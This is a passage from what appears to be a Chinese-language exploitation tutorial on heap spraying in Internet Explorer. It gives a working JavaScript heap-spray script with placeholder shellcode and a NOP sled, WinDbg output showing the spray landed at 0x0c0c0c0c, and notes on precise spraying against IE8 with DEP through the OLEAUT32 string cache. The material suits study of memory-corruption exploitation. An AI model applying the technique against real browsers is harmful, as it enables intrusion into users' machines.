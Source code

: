 

```
&lt;html&gt;
&lt;script&gt;
    var shellcode = unescape('%u4141%u4141');
    var bigblock = unescape('%u9090%u9090');
    var headsize = 20;
    var slackspace = headsize + shellcode.length;
    while (bigblock.length &lt; slackspace) bigblock += bigblock;
    var fillblock = bigblock.substring(0, slackspace);
    var block = bigblock.substring(0, bigblock.length - slackspace);
    while (block.length + slackspace &lt; 0x40000) block = block + block + fillblock;
    var memory = new Array();
    for (i = 0; i &lt; 500; i++) `{`memory[i] = block + shellcode;`}`
&lt;/script&gt;
&lt;/html&gt;
```

分配了500块大小为0x40000 * 2的内存块(.length返回大小为实际大小一半)，结果:



```
0:009&gt; dd 0c0c0c0c
0c0c0c0c  90909090 90909090 90909090 90909090
0c0c0c1c  90909090 90909090 90909090 90909090
...
```

可以尝试多次，发现都是成功的，查看堆的状态:



```
0:009&gt; !heap -stat -h 00140000
 heap @ 00140000
group-by: TOTSIZE max-display: 20
    size     #blocks     total     ( %) (percent of total busy bytes)
    7ffe0 1f5 - fa7c160  (99.78)
    8000 1 - 8000  (0.01)
    7fe0 1 - 7fe0  (0.01)
...
```

基本上块的大小都是7ffe0，也就是我们分配的0x40000 * 2。<br>

**<br>**

**Win7下的IE8的堆喷射**

对于IE8浏览器，之前的脚本不再适用，而且IE8一般都配合了DEP，所以不仅需要堆喷射，还需要精准的堆喷射，使得预测的地址正好在ROP链的起始，否则绕不过DEP的防护。

对于JavaScript申请字符串并不总是从系统堆中申请，通常是由OLEAUT32.DLL中的堆管理器来进行管理，其中维护了一张缓存表，每当一块内存被释放，堆管理器就会把指向那块内存的指针放到缓存表中，当下次再次分配内存时，管理器会优先把缓存表中合适的内存块返回给程序。

缓存表有四个bin，每个bin可以容纳6块已经被释放的内存块，每个bin可容纳块的大小不同，大于32767 bytes的块直接被释放，不会缓存:



```
CacheEntry bin_1_32     [6];  // blocks from 1 to 32 bytes
CacheEntry bin_33_64    [6];  // blocks from 33 to 64 bytes
CacheEntry bin_65_256   [6];  // blocks from 65 to 265 bytes
CacheEntry bin_257_32768[6];  // blocks from 257 to 32768 bytes
```
